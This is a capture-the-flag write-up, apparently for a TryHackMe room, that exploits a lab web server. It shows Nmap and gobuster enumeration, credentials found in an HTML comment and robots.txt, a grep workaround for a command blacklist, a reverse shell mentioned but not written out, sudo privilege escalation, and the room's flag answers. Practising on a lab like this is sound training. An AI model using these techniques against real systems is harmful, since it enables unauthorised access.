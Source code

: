 # Overview


# Question-1
```
What is the first ingredient that Rick needs?
```
- Let start by scanning the IP Address `10.10.54.104` with Nmap
### Nmap Results

```bash
┌──(kali㉿kali)-[~]
└─$  nmap -A 10.10.54.104       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 08:46 EST
Nmap scan report for 10.10.54.104
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:d1:f5:44:fc:f9:82:e6:94:df:f6:bf:4f:97:0b:62 (RSA)
|   256 29:7f:d0:f1:28:c5:cc:c8:0c:d5:0f:dd:fa:7e:83:2e (ECDSA)
|_  256 5b:00:f3:24:7a:0e:45:39:42:a8:fe:99:75:09:e5:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.43 seconds
```


From the scan result i see a web server is running i.e`port 80` .:
!

There is nothing interesting on the web page so i decide to check the page source:


and Boom i got a very important information(a username) from the HTML comment:

```html
  <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
```

Then i decided to brute-force for directories using gobuster and i also added some extension switch to the command:
### Gobuster result

```bash
┌──(kali㉿kali)-[/usr/share/wordlists/dirbuster]
└─$ gobuster dir -u http://10.10.54.104 -w directory-list-2.3-medium.txt -x txt,html,css,cgi,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.54.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              css,cgi,php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 292]
/.php                 (Status: 403) [Size: 291]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.54.104/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

from the output, what i see that robot.txt is available so i use the browser to check if there is any disallow entries:


this is strange robots.txt doesn't contain a string like this, but i note my findings:

```
Wubbalubbadubdub
```

from the Gobuster output we also have a login page i.e `login.php` :
![login1])

because i have no other info and the rest of the pages need a user to be logged in before viewing them i tried the username i got earlier and the string i found from`robots.txt` as the password because there is No harm in trying ): 
![login2]

Boom i am logged in and i was brought to a command panel page(hopefully get RCE or a reverse shell?) i don't know ):
and also i don't have access to other pages, only the command page is available for us:


typing `ls` in the command panel prompt i got the list of files and directory in the current web-root file path `/var/www/html`


then i try to read the first file `Sup3rS3cretPickl3Ingred.txt` but it not working, i use different method of reading file but i am getting same error message, it seems like there is list of commands that can't be executed `blacklist`:


i researched for possible ways to read a file, and found Grep `grep . example.txt` and `grep -R .` :
i used the first grep method to read the the `Sup3rS3cretPickl3Ingred.txt` and i was able to see the first answer(ingredient)


```bash
command: grep . Sup3rS3cretPickl3Ingred.txt

output: mr. meeseek hair
```

i also used the second method of reading files with grep but it returned back the out of all the file `ALL`


it doesn't look nice to read but viewing the page source is much better


from the output of clue.txt `Look around the file system for the other ingredient.`
it will be hard to do that with the limited executable commands.
but scrolling down the source page i found the php code that is actively disallowing some command:


and the list of commands isn't that big so i can work with this.
# Getting a reverse shell
going to [Online-Reverse shell generator](https://www.revshells.com/) i used different payloads but the one that worked is the python3 payload


# Mini-privilege Escalation
running sudo -l and noticed that www-data can run anything with sudo:


then i switched to root with `sudo su` and found the 3rd ingredient in `/root`


```bash
www-data@ip-10-10-54-104:/var/www/html$ sudo su
sudo su
root@ip-10-10-54-104:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-54-104:/var/www/html# cd /root
cd /root
root@ip-10-10-54-104:~# ls
ls
3rd.txt  snap
root@ip-10-10-54-104:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice <--- 
root@ip-10-10-54-104:~# 
```

lastly i moved to the /`home/rick` directory and found the second ingredient:


```bash
root@ip-10-10-54-104:~# cd /home
cd /home
root@ip-10-10-54-104:/home# ls
ls
rick  ubuntu
root@ip-10-10-54-104:/home# cd rick
cd rick
root@ip-10-10-54-104:/home/rick# ls
ls
second ingredients
root@ip-10-10-54-104:/home/rick# cat second\ ingredinets
cat second\ ingredinets
cat: 'second ingredinets': No such file or directory
root@ip-10-10-54-104:/home/rick# cat *
cat *
1 jerry tear <---
root@ip-10-10-54-104:/home/rick# 
```



